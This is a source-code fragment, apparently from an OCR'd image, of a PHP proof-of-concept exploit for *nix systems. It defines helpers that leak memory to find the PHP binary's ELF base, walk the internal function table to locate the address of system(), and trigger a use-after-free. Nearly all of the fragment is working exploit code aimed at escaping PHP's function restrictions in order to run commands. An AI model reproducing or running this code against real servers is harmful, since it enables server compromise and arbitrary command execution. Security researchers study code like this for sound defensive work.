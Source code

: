 ```PHP
    }
 
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
 
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
 
            return $data_addr + $i * 8;
        }
    }
 
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }
 
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
 
            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
 
    function trigger_uaf($arg) {
 
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
 
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
 
```